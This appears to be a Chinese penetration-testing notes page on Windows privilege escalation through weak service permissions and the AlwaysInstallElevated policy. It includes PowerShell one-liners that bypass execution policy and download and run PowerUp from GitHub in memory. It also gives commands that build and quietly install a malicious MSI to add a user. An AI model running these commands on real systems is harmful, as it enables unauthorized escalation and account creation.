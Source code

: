 ### [](#%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)系统服务权限配置错误

#### [](#powerup)powerup

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "&{Import-Module .\PowerUP.ps1;Invoke-AllChecks}"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print](assets/1699410292-5737ba33d8a61fa1694477044136e2a2 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print")

#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8)metasploit 下的利用

对应模块 `service_permissions`。

### [](#%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE-alwaysinstallelevated)注册表键 AlwaysInstallElevated

`AlwaysInstallElevated` 是一个策略设置。微软允许非授权用户以 `SYSTEM` 权限运行安装文件(MSI)，如果用户启用此策略设置，那么黑客利用恶意的 `MSI` 文件就可以进行管理员权限的提升。假设我们拿到目标主机的 `Meterpreter` 会话后并没能通过一些常规方式取得 `SYSTEM` 权限，那么 `AlwaysInstallElevated` 提权可以给我们带来另一条思路。

-   手动检测注册表：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

如果值均为 `1`，说明存在风险

-   PowerUp 脚本

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Get-RegistryAlwaysInstallElevated"<br>``` |

添加账户

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Write-UserAddMSI<br>``` |

以普通用户运行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>msiexec /q /i UserAdd.smi<br>``` |

